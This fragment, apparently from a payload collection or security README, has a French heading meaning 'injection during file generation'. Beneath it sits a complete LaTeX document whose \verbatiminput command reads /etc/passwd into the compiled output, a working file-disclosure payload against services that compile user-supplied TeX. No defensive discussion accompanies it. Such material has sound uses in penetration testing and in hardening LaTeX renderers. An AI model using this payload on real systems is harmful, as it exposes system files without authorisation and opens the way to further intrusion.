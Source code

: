 # Injection pendant la génération d'un fichier
``` tex
\documentclass{article} 
\usepackage{verbatim} 
\begin{document} 
\verbatiminput{/etc/passwd} 
\end{document} 
```
